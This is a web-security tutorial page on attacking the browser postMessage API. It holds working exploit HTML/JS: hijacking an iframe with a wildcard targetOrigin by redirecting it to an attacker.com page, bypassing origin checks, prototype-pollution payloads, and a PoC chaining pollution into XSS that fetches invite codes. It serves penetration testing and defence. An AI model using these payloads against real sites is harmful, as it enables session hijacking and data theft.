 # PostMessage Vulnerabilities

## Send **PostMessage**

**PostMessage** uses the following function to send a message:

```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')
```

Note that **targetOrigin** can be a '\*' or an URL like _https://company.com._\
\_\_In the **second scenario**, the **message can only be sent to that domain** (even if the origin of the window object is different).\
If the **wildcard** is used, **messages could be sent to any domain**, and will be sent to the origin of the Window object.

### Attacking iframe & wilcard in **targetOrigin**

As explained in [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) if you find a page that can be **iframed** (no `X-Frame-Header` protection) and that is **sending sensitive** message via **postMessage** using a **wildcard** (\*), you can **modify** the **origin** of the **iframe** and **leak** the **sensitive** message to a domain controlled by you.\
Note that if the page can be iframed but the **targetOrigin** is **set to a URL and not to a wildcard**, this **trick won't work**.

```markup
<html>
   <iframe src="https://docs.google.com/document/ID" />
   <script>
      setTimeout(exp, 6000); //Wait 6s
      
      //Try to change the origin of the iframe each 100ms
      function exp(){
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
          }, 100);
      }
   </script>
</html>
```

## addEventListener exploitation

**`addEventListener`** is the function used by JS to declare the function that is **expecting `postMessages`**.\
A code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the **first thing** that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information (like changing a password). **If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints** and change the victims passwords (in this example).

### Enumeration

In order to **find event listeners** in the current page you can:

* **Search** the JS code for `window.addEventListener` and `$(window).on` (_JQuery version_)
* **Execute** in the developer tools console: `getEventListeners(window)`

![](<../.gitbook/assets/image (618) (1) (1).png>)

* **Go to** _Elements --> Event Listeners_ in the developer tools of the browser

![](<../.gitbook/assets/image (617).png>)

* Use a **browser extension** like [**https://github.com/benso-io/posta**](https://github.com/benso-io/posta) or [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker). This browser extensions will **intercept all the messages** and show them to you.

### addEventListener check origin bypasses

* If **`indexOf()`** is used to **check** the **origin** of the PostMessage event, remember that it can be easily bypassed like in the following example: `("https://app-sj17.marketo.com").indexOf("https://app-sj17.ma")`\\
* If **`search()`** is used to **validate** the **origin** could be insecure. According to the docs of `String.prototype.search()`, the method **takes a regular repression** object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.\
  In regular expression, **a dot (.) is treated as a wildcard**. An attacker can take advantage of it and **use** a **special domain** instead of the official one to bypass the validation, like in: `"https://www.safedomain.com".search("www.s.fedomain.com")`.\\
* If **`escapeHtml`** function is used, the function does not create a `new` escaped object, instead it **overwrites properties** of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

### X-Frame-Header bypass

In order to perform these attacks ideally you will be able to **put the victim web page** inside an `iframe`. But some headers like `X-Frame-Header` can **prevent** that **behaviour**.\
In those scenarios you can still use a less stealthy attack. You can open a new tab to the vulnerable web application and communicate with it:

```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```

### postMessage to Prototype Pollution and/or XSS

In scenarios where the data sent through `postMessage` is executed by JS, you can **iframe** the **page** and **exploit** the **prototype pollution/XSS** sending the exploit via `postMessage`.

A couple of **very good explained XSS though `postMessage`** can be found in [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Example of an exploit to abuse **Prototype Pollution and then XSS** through a `postMessage` to an `iframe`:

```markup
<html>
<body>
    <iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
    <script>
        function get_code() {
            document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
            document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
        }

        setTimeout(get_code, 2000);
    </script>
</body>
</html>
```

For **more information**:

* Link to page about [**prototype pollution**](deserialization/nodejs-proto-prototype-pollution/)
* Link to page about [**XSS**](xss-cross-site-scripting/)
* Link to page about [**client side prototype pollution to XSS**](deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)

## References

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* To practice: [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)
